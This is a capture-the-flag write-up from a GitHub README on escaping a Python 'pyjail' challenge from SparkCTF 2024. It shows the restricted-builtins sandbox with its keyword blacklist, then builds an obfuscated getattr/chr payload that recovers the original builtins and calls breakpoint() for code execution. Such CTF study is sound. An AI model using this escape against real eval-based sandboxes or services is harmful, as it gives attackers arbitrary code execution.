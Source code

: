 ## Pyhell-Task-SparkCTF-2024
This repo will cover the writeup for the pyjail task hosted at SparkCTF 2024
# Description
This task focused on breaking a Python environment that restricts the built-in functions accessible to the user and employs a blacklist to prohibit specific keywords and characters, which could otherwise be exploited to circumvent these limitations.

#### Files: jail.py
```python
import re
import builtins
import sys

def safe_eval(user_input):
    safe_builtins = {
        "__builtins__": {name: getattr(builtins, name) for name in ['print', 'int', 'float', '__import__', 'getattr', 'chr']}
    }

    try:
        exec(user_input, safe_builtins, {})
    except Exception as e:
        print(f"Error: {e}")
        sys.exit(1)

def jail():
    ascii_art = """
                                                                                                        _..._                                  
                                .---..---.                                                           .-'_..._''.                    .---..---. 
   .              __.....__     |   ||   |          .--.   _..._                                   .' .'      '.\\     __.....__     |   ||   | 
 .'|          .-''         '.   |   ||   |          |__| .'     '.                                / .'            .-''         '.   |   ||   | 
<  |         /     .-''"'-.  `. |   ||   |          .--..   .-.   .                              . '             /     .-''"'-.  `. |   ||   | 
 | |        /     /________\\   \\|   ||   |          |  ||  '   '  |              __              | |            /     /________\\   \\|   ||   | 
 | | .'''-. |                  ||   ||   |          |  ||  |   |  |           .:--.'.            | |            |                  ||   ||   | 
 | |/.'''. \\\\    .-------------'|   ||   |          |  ||  |   |  |          / |   \\ |           . '            \\\\    .-------------'|   ||   | 
 |  /    | | \\    '-.____...---.|   ||   |          |  ||  |   |  |          `" __ | |            \\ '.          .\\    '-.____...---.|   ||   | 
 | |     | |  `.             .' |   ||   |          |__||  |   |  |           .'.''| |             '. `._____.-'/ `.             .' |   ||   | 
 | |     | |    `''-...... -'   '---''---'              |  |   |  |          / /   | |_              `-.______ /    `''-...... -'   '---''---' 
 | '.    | '.                                           |  |   |  |          \\ \\._,\\ '/                       `                                
 '---'   '---'                                          '--'   '--'           `--'  `"                                                         
!! Even Michael Scofield can not escape this .
    """
    print(ascii_art)

    max_input_length = 553

    while True:
        user_input = input(">>> ")

        if len(user_input) > max_input_length:
            print("Bro chill !!! That's kinda long")
            continue

        blacklist = ['exec', 'eval', 'os', 'sys', 'subprocess', 'file', 'open', 'register', 'setattr', 'input', 'mro', 'globals', 'class', 'getitem', 'breakpoint', '_', '.','[',']']

        for block in blacklist:
            if block in user_input:
                print(f"No no {block} is not allowed in here")
                break
        else:
            safe_eval(user_input)

if __name__ == "__main__":
    jail()
```
### Payload-example :
 ```python
().__class__.__class__.__subclasses__(().__class__.__class__)[0].register.__builtins__["breakpoint"]()
```

This payload navigates Python's internal structures to reference the original __builtins__ module not the restricted version provided in the script.
But first we need to find replacements for `_ [ ] .` and other words like `class register builtins breakpoint`.
The main key is to exploit the custom builtins set in our `safe_eval` function. Pretty much `print int float` are kinda usless in our case ( maybe print is useful to test ). We can notice that we have the `getattr` function which if you google it you can already find that it can replaces `.` to accessing attributes.
Another thing in our custom builtins we notice the `chr` function which we can use to replace the `_` by just using `chr(95)`, so now 2 of our major problems are done. 
We will conduct another search to find alternatives for replacing the use of `[]` in Python and one of the main things we will find is the use of getitem method.
We are almost done we found a way to replace the main restrictions  `_ [ ] .`. Now we just need to find a way to bypass the restrictions set for the words in the blacklist which pretty easy we need just to concatenate them using `+` for example we change `class` to `'cl'+'ass'`. That's it now we how to bypass everything all we need to do is construct our new payload ( just don't tilt while constructing it ) 
Our payload should transform from: 
 ```python
().__class__.__class__.__subclasses__(().__class__.__class__)[0].register.__builtins__["breakpoint"]()
```
to: 
 ```python
getattr(getattr(getattr(getattr(getattr(getattr(getattr((), chr(95) + chr(95) + 'cl'+'ass' + chr(95) + chr(95)), chr(95) + chr(95) + 'cl'+'ass' + chr(95) + chr(95)), chr(95) + chr(95) + 'subcl'+'asses' + chr(95) + chr(95))(getattr(getattr((), chr(95) + chr(95) + 'cl'+'ass' + chr(95) + chr(95)), chr(95) + chr(95) + 'cl'+'ass' + chr(95) + chr(95))), chr(95) + chr(95) + 'get'+'item' + chr(95) + chr(95))(0), 'regi'+'ster'), chr(95) + chr(95) + 'buil'+'tins' + chr(95) + chr(95)), chr(95) + chr(95) + 'get'+'item' + chr(95) + chr(95))('break'+'point')()
```
